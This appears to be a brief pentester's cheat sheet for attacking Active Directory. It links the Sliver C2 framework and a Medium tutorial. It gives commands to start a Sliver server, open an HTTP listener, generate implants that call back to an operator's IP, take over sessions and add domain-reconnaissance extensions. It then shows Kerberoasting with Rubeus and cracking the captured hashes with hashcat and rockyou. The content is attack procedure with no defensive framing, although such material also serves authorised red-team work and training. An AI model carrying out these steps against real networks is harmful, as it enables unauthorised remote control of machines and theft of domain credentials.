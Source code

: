 https://github.com/BishopFox/sliver

https://rootsecdev.medium.com/hacking-active-directory-with-sliver-c2-19d7ceabbf13

```bash
./sliver-server_linux

# Generate Listener on Custom Port
http -l 8085

# Generate Implants
generate --http <ip> --save #/home/path

sessions

use <session id>

armory

armory install c2tc-domaininfo
```

Using Rubeus to Kerberoast
```bash
rubeus -i kerberoast /nowrap

#Capture hash offline and crack
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt
```